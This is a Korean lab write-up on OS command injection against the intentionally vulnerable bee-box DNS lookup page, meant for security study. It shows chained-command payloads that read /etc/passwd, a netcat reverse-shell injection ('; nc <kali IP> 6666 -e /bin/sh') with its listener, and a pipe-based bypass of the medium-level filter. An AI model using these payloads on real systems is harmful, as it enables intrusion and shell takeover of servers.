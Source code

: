 ## OS Command Injection

![chrome_kwMsmrvtf8](https://user-images.githubusercontent.com/79683414/133914877-de34a754-78b9-4a71-a1d6-3853a07dbceb.png)

시스템 명령어를 주입해서 서버에 접근하는 공격이다. 시스템 명령어를 웹 어플리케이션에서 실행 할 수 있을 때 발생한다.

아래와 같이 `nslookup`과 같은 시스템 명령이 이용될 것이라 추측되는 Input에 CLI 의 다중명령어 기능을 활용하면 추가적인 명령어를 삽입할 수 있다.

> __다중명령어__
>
> - 세미콜론(;) : 하나의 명령어 라인에서 여러 명령어를 실행. 실패와 관계 없이 전부 실행
>
> - 엠퍼센트(&) : 앞에서 부터 순차적으로 실행하되, 실패할 경우 뒤 명령은 수행하지 않은다.
>
> - 파이프라인(|): 앞에 나온 명령 결과를 두 번째 명령에서 사용.
>
>   ex)
>
>    ls -l ; cd /var/www/html
>
>   dpkg -l | grep python



## Dns lookup

Dns lookup 은 Dns 주소를 IP로 변환 해주는 기능이다. `www.naver.com` 을 입력했을 때, 네이버의 실제 공인 IP 주소가 출력된다.

![vmware_RIbLqdwE1L](https://user-images.githubusercontent.com/79683414/133915239-cfd47faa-d0b5-4e5b-9bc8-699e203b80dd.png)

<br/>

<br/>

### low

'bee-box : OS Command Injection' 에서는 Dns lookup 기능이 구현되어 있다. `nslookup`과 같은 OS Command로 구현되는 것 같은데, 몇 가지 명령어를 테스트 해보자. 우선 정보 수집을 위한 간단한 명령어를 테스트해보자.

whoami, hostname, cat /etc/passwd, cat /etc/issue 등

![chrome_MSsvmX1b2H](https://user-images.githubusercontent.com/79683414/133948251-b7763cd2-0bff-4900-bb67-8bebc05d8a71.png)

<br/>

<br/>

<br/>

OS Command Injection 을 막기 위한 보안 기능이 없는 듯 하다. `cat /etc/passwd` 로 사용자 목록을 출력해보자. 위에서 출력된 www-data의 사용자 정보를 확인 할 수 있다.

![chrome_fOnrQaWRiY](https://user-images.githubusercontent.com/79683414/133948435-d193fb34-21fd-454f-904e-cfeef365cb51.png)

<br/>

<br/>

<br/>

이 취약점이 발견되면 "리버스 쉘"을 이용하여 간단히 쉘을 획득 할 수 있다는 점이 재밌었다. 쉘을 획득하는 방법은 바인드/리버스 쉘 두 가지 방법이 있는데, 리버스를 이용하는 것이 일반적이다.

리버스 쉘을 이용하는 이유는 방화벽 때문인데, 방화벽은 들어오는 패킷에 대해서는 제한적이고 나가는 패킷에 대해서는 느슨하기 때문이다. 마치 실생활에서 사용되는 도어락 처럼, 도어락은 집에 들어오기 위해 비밀번호를 입력하여 인증하는 절차를 거치지만 집에서 나갈 때 별도로 인증 절차를 수행하지 않는다.

> - Bind shell : 피해자 쪽 서버 포트가 열렸을 때 공격자가 대상 포트에 접속함.
> - Reverse shell : 공격자 쪽 서버 포트를 열어놓고 피해자가 접속.

<br/>

<br/>

<br/>리버스 쉘을 이용하여 웹쉘을 획득해보자.

<br/>

<br/>

<br/>

우선 공격자(kali)에서 `nc -nlvp 6666` 으로 포트를 listening 상태로 열어둔다. 포트는 사용하지 않는 임의의 포트를 입력한다.

![vmware_lmjG6sKjOI](https://user-images.githubusercontent.com/79683414/133949853-6cc9e333-7c37-4806-a2d7-5091dfabee96.png)

<br/>

<br/>

<br/>

위에서 발견한 OS Command Injection 을 사용하여 Bee-box 에서 Kali 로 nc 명령을 날린다. `-e` 옵션은 연결된 후 해당 프로그램을 실행한다는 의미이다. 

`; nc <kali IP address> 6666 -e /bin/sh`

![chrome_IWimdFKx8Z](https://user-images.githubusercontent.com/79683414/133950018-6c14a827-f68a-499b-9f89-17669c9b90ef.png)

<br/>

<br/>

<br/>

Bee-box 에서 `Lookup` 버튼을 누르면 Kali(공격자)의 화면에 connect 되었다고 출력된다.

앞에서 실행 한 Command Injection 명령어를 통해 쉘이 정상적으로 획득되었는지 확인해보자.

![vmware_XOif4ug8NM](https://user-images.githubusercontent.com/79683414/133950251-d5275ec0-af32-4217-9f85-9c5d28a3beea.png)



Bee-box(희생자)의 쉘을 획득했다. 쉘을 획득하면 정보 수집은 물론, 권한 상승 공격으로 Root 권한을 획득 할 수 있다.

## medium/high

![nEFT3XuK6p](https://user-images.githubusercontent.com/79683414/133951089-035c5b8e-257f-49ba-bd5e-cee432e16835.png)

`commandi.php`를 확인해 보면 medium과 high 단계에는 각각 필터링이 적용되어 있는데

`commandi_check_1`과 `commandi_check_2` 이다.

<br/>

<br/>

<br/>

![Code_LlCWXF3l3r](https://user-images.githubusercontent.com/79683414/133951161-5da40ddf-0739-42c2-8c5b-8aacb182b288.png)

medium 단계에 적용된 check_1 는 "&" 와 ";"를 필터링 하므로, "|"을 이용해 공격이 가능하다.

high 단계에 적용된 escapeshellcmd() 함수는 쉘 메타문자(" `&#;`|*?~<>^()[]{}$\`, `\x0A`\xFF")에 백슬래쉬 "\\"를 붙여 명령을 실행할 수 없도록 한다.

